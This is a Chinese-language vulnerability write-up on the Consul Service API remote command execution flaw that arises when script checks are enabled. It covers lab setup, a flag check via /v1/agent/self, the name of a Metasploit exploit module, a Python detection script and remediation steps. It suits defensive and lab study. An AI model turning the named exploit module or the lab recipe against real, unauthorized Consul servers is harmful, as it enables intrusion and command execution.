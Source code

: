 # Consul Service API远程命令执行漏洞

## 漏洞描述

2018年11月27日，Consul在官方博客中发布了关于Consul工具在特定配置下可能导致远程命令执行（RCE）漏洞的公告，并描述了防护该漏洞的配置方案。

Consul是HashiCorp公司推出的一款开源工具，用于实现分布式系统的服务发现与配置。与其他分布式服务注册与发现的方案相比，Consul提供的方案更为“一站式”。Consul内置了服务注册与发现框架、分布一致性协议实现、健康检查、Key/Value存储、多数据中心方案，不再需要依赖其他工具（例如ZooKeeper等），使用方式也相对简单。

Consul使用Go语言编写，因此具有天然的可移植性（支持Linux、Windows和Mac OS X系统）；且安装包中仅包含一个可执行文件，便于部署，可与Docker等轻量级容器无缝配合。

在特定配置下，恶意攻击者可以通过发送精心构造的HTTP请求在未经授权的情况下在Consul服务端远程执行命令。

## 漏洞影响

启用了脚本检查参数（-enable-script-checks）的所有版本

## 环境搭建

以1.2.4为例，下载地址：https://releases.hashicorp.com/consul/1.2.4/

## 漏洞复现

Windows在当前目录下执行命令：

```
#开启脚本检测功能，该功能开启后漏洞才存在
consul.exe agent -dev -client <your-target-ip>  -enable-script-checks   
```

访问`your-target-ip:8500`：

![image-20230306091757424](images/image-20230306091757424.png)

验证是否存在该远程命令执行漏洞，访问以下网址，如果`EnableRemoteScriptChecks`参数为`true`，则漏洞存在：

```
http://your-target-ip:port/v1/agent/self
```

也可以使用Meterpreter进行利用：

```
msf6 > search Hashicorp
msf6 > use exploit/multi/misc/consul_service_exec
```

## 漏洞POC

```python
import requests
import argparse
from requests.packages import urllib3
urllib3.disable_warnings()
from colorama import init
init(autoreset=True)
import json
headers={
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0'
}
def url():
	des="Hashicorp Consul Service API远程命令执行漏洞POC"
	parser = argparse.ArgumentParser(description=des)
	parser.add_argument('target_url',type=str,help='The target address,example: http://192.168.140.153')
	args = parser.parse_args() 
	target_url = args.target_url
	print("Hashicorp Consul Service API远程命令执行漏洞POC")
	print("[-]正在执行检测...")
	print(f"[-]目标地址：{target_url}",)
	return target_url
def check(target_url):
	url = target_url + '/v1/agent/self'
	try:
		response = requests.get(url=url,headers=headers,verify=False,timeout=5).text
		value = json.loads(response)['DebugConfig']['EnableRemoteScriptChecks']
		if str(value) == 'True':
			print('\033[0;31m[+]漏洞存在\033[0m')
		else:
			print('漏洞不存在')
	except Exception as a:
		print('漏洞不存在')
	
if __name__ == '__main__':
	target_url = url()
	check(target_url)
```

## 漏洞修复

- 禁用Consul服务器上的脚本检查功能
- 确保Consul HTTP API服务无法通过外网访问或调用
- 对`/v1/agent/service/register` 禁止PUT方法